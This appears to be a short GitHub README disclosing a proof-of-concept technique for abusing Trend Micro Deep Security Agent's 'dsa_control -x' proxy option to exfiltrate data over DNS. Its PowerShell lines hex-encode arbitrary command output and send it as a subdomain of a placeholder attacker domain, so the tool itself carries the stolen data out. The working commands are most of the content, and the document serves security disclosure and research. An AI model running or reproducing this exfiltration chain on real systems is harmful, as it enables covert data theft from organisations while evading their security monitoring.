 ## Trend Micro Deep Security Agent: DNS Exfiltration using legitimate CLI tool

An interesting way of using the `dsa_control` CLI tool, included in `Trend Micro's Deep Security Agent (DSA)` solution, specifically its `-x` proxy feature, is that an actor can exploit it to make the tool resolve a given domain with out breaking the existing DSA configuration. This could allow data to be exfiltrated using a legitimate tool.

Requirements:
- Administrative privileges
- Trend Micro Deep Security Agent Installed


## Trend Micro Configuration
![alt text](assets/3.png)


## POC
```powershell
$cmd = -join ([System.Text.Encoding]::UTF8.GetBytes((<COMMAND>)) | ForEach-Object { "{0:x2}" -f $_ }) # Convert command output to HEX
```

```powershell
dsa_control.cmd -x "dsm_proxy://$cmd.<domain>:443/"
```

## Example
![alt text](assets/2.PNG)

![alt text](assets/1.png)

